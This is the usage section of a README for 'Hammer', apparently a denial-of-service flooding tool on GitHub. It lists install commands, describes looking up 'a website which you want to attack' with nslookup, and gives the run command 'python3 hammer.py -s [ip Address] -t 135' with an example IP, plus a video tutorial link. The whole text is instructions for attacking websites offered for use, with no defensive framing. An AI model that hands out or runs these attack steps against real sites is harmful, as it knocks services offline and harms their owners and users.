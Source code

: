 ## Usage:
```
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python3 hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python3 hammer.py -s 123.45.67.89 -t 135<br>
```

## Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)

